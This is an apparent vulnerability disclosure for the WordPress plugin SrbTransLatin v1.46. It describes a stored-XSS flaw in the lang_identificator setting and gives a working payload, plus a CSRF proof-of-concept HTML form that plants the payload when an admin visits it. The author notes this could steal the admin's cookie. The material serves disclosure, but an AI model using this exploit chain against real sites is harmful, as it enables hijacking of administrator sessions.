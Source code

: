 Well ,sir ,I just found a Stored-XSS bug and a CSRF bug at wp-plugin SrbTransLatin.

#### Stored-XSS

When the admin user click the "Update Options" button in the SrbTransLatin setting page, we'll post some data to:

```
http://localhost/wordpress/wp-admin/options-general.php?page=srbtranslatoptions
```


But when I pentest the  parameter in this plugin, I found when I write something into this point, it does not filter well.

Weak data parameter:

```
lang_identificator=script%27%22%3E%3Csvg%2Fonload%3Dalert%28123%29%3E%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/SrbTransLatin/insert-xss.png)


#### CSRF

Well, the stored-xss here need to combined with a csrf bug. Because no csrf protection here, we can cheat the admin user to visit the evil html on the evil site.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/wordpress/wp-admin/options-general.php?page=srbtranslatoptions" method="POST">
      <input type="hidden" name="lang&#95;identificator" value="script&apos;&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;123&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="stl&#95;default&#95;language" value="cir" />
      <input type="hidden" name="file&#95;lang&#95;delimiter" value="&#61;" />
      <input type="hidden" name="sanitize&#95;file&#95;names" value="on" />
      <input type="hidden" name="Submit" value="Update&#32;Options" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

In a word, if the manager could be cheated to visit my evil html on my site, I can get the manager's cookie easily, or do something more evilly.


Well,  by the way, I just test the bug in the wordpress 4.9.1 and the wp-plugin SrbTransLatin v1.46.